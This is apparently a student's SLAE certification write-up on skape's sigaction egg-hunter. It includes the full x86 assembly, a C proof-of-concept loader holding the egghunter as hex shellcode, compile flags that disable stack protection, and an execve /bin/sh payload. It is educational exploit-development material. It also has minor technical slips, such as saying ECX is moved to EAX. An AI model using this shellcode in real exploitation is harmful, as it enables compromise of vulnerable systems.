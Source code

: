 # Assignment 3

## What to do
- Study the Egg Hunter shellcode
- Create a working demo of egghunter
- Should configurable for different payloads

###### This study is based on skape's paper _Safely Searching Process Virtual Address Space_ published back in 2004.

The concept of the egg-hunting technique is to search a process' _Virtual Address Space_ for a specific occurrence of the provided egg.

As skape describes, think about searching for a needle in a haystack. In this case, process _Virtual Address Space_ is the haystack and egg is the needle.

This exploitation technique is useful when a very small amount of data to use is available during exploiting a buffer overflow vulnerability.

The actual egg-hunting shellcode is placed in the small available memory location. The attacker then can place a larger payload somewhere else in the process' address space and the actual egg-hunting shellcode will look in the memory for this larger payload.

The mechanism that the studied method uses, involves abusing the system call interface provided by the operating system in order to validate process _Virtual Memory Areas_ in kernel mode.

The implementation being studied here considers *sigaction* sys call. Its real purpose is to allow for defining custom actions to be taken on the receipt of a given signal. In this case, however, it will validate user-mode addresses.

The sigaction function is prototyped as follows:

```c
int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact);
```

At this point, let's have a closer look at the registers during egghunter's execution:

- EAX will hold the sigaction sys call number, `0x43` and later will hold the egg

- EBX will hold signum, there is no need to initialize this register

- ECX will hold act structure, the memory address we want to validate. At first, access to a memory page is validated. If the page is in the process' virtual address space ECX iterates inside this page and checks the existence of the egg. Otherwise, ECX moves to the next memory page.

The page's size can me easily identified:

```zsh
$ getconf PAGE_SIZE
4096
```

- EDX will hold oldact structure and does not have to be initialized to a valid pointer because act structure is checked to see if it is valid before the oldcat structure is.

- EDI will hold the memory address that ECX points to

- ESI there is no need to use this register

The actual egg-hunter Assembly code follows:

```assembly
;
; sigaction egghunter
;

global _start

section .text
_start:

        or cx, 0xfff            ; page allignment
        inc ecx                 ; first address in the memory page
        push byte +0x43         ; sigtran sys call number
        pop eax                 ; sys call number into eax
        int 0x80                ; make sys call
        cmp al, 0xf2            ; check if memory is accessible -EFAULT
        jz $-0xd                ; if memory is not accessible look into another page
        mov eax,0x50905090      ; egg CHANGE ME
        mov edi, ecx            ; load edi with the address that ecx point to
        scasd                   ; compare eax to edi
        jnz $-0x12              ; if not equal inc ecx
        scasd                   ; string compare
        jnz $-0x15              ; if not equal inc ecx
        jmp edi                 ; jmp to shellcode

```

Further notes on the egghunter code

As soon as sigaction sys call is being executed a value is returned in EAX. If the process has access to the specified memory zero is returned.

Otherwise, the error code EFAULT is returned. Since it is an error code returned by a system call, the actual value is negative.

The EFAULT's value is stored in a header file and can be retrieved using the following command:

```zsh
$ cat /usr/include/asm-generic/errno-base.h | grep -w 'EFAULT'
#define	EFAULT		14	/* Bad address */
```

The value (-14) converted to 2's complement binary is 1111 0010 and is stored in EAX. The lower byte stored in EAX will therefore be `0xf2`.

A really efficient method is used to compare the bytes located in memory address pointed by ECX.

The address stored in ECX is moved to EAX. After this move, SCASD instruction follows. This instruction makes a string compare between EAX and EDI.

On a match - memory address pointed by EDI has the first occurrence of the egg - EDI will be increased by one, pointing to the next address that needs to be compared with EAX.

On a second match - EDI has the second occurrence of the egg - the execution continues to the actual shellcode (execve /bin/sh).

The Assembly code can be found in _Assignment #3_ repo named as _egghunter.asm_

The following demo code is the proof of concept:

```c
#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>
#include<string.h>

int main(int argc, char **argv)
{
	uint8_t egghunter[30] =
		"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd"	// skape's egg-hunting demo shellcode
		"\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50"	// \x90\x50\x90\x50 is the demo egg
		"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";	//

	uint32_t j=0, i=0, count =0, count2=0;
	uint8_t *shellcode;

	// usage
	if ( argc != 3 )
	{
		printf("shellcode.c <shellcode> <egg>\n");
		exit(0);
	}

	// calculate the length of the given shellcode
	while ( argv[1][i++] != '\0' )
		count++;

	count = count/3;	// # of bytes

	// given the shellcode, change each char from xXX to XX\0
	// e.g. \x55 will be 55\0
	// each pair must be null terminated for later use in strtol
	i=0;
	do
	{
		argv[1][i] = argv[1][i+1];
		argv[1][i+1] = argv[1][i+2];
		argv[1][i+2] = '\0';
		count2++;
		i=i+3;
	} while ( count-- != 1 );

	// allocate memory for the shellcode
	shellcode = (uint8_t *)malloc(sizeof(uint8_t)*count2+8);

	// place the egg into the shellcode
	for (i=0; i<4; i++)
	{
		shellcode[i] = argv[2][3-i];
		shellcode[i+4] = argv[2][3-i];
	}

	// transform each pair of characters into a number
	// e.g. \x55 will be saved as chars x 5 5
	// strtol will transform 5 5 into a number
	j=0;
	for (i=0; i<count2; i++)
	{
		shellcode[i+8] = (uint8_t) strtol(&argv[1][j], NULL, 16);
		j=j+3;
	}

	// place the new egg in the egghunter
	for (i=0; i<4; i++)
		egghunter[16+i] = argv[2][3-i];


	printf("Shellcode length: %d\n", strlen(egghunter));

	int (*ret)() = (int(*)())egghunter;

	ret();

	return 0;

}

```

The code above can be found in _Assignement #3_ repo and is named as _shellcode.c_

It can be compiled issuing the command `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`

The produced _elf_ will take two arguments: the shellcode to be executed (in this example execve /bin/sh) and the four-character egg (in this example is the word loot)

```c
$ ./shellcode \x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80 loot
```

The execution of the elf shellcode provided the two arguments, will spawn an sh shell.

/printscreen goes here.

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
